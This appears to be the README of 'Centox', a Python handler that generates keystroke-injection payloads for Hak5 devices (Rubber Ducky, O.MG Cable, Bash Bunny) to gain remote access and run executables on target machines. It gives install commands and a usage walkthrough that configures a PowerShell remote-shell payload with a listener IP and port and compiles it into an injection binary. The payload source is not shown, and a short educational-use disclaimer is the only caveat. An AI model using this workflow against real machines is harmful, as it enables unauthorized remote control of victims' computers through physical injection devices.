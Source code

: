 <div align="center">
    <img src="/assets/media/logo.png" height="200">
</div>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to generate keystroke injection payloads
to deploy using a [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/),
[O.MG Cable](https://shop.hak5.org/products/omg-cable) or
[Bash Bunny](https://shop.hak5.org/products/bash-bunny) which was all designed by [Hak5](https://shop.hak5.org/).
Each payload was originally written for the rubber ducky but can be converted to 3 formats: ducky, bunny and omg.
This project contains payloads designed for establishing remote access, deploying and running executables and
more in as short time as possible. Centox comes with payloads designed for Windows, Mac and Linux with the
assumption that the target has not modified their default shortcuts.

## Disclaimer

This project was designed for educational purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Compatibility
- [x] USB Rubber Ducky
- [x] O.MG Cable
- [x] Bash Bunny

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  ---------------------------------------------
list       lists all available: payloads layouts formats
use        choose a payload to use
set        sets global or payload arguments
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payloads:
```
[Centox] $ use windows/shell/powershell

[Centox] $ options

 Payload: windows/shell/powershell

Global Argument       Value
--------------------  -------
typing_delay_average
typing_delay_offset   25

Payload Argument    Value
------------------  -------
start_delay         500
ip
port
windows_admin       false

[Centox] $ set ip 192.168.68.42

[Centox] $ set port 9999

[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpti0d_l1u
[*] converting payload to format: ducky
[*] writing raw payload to -> /tmp/tmpti0d_l1u/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```

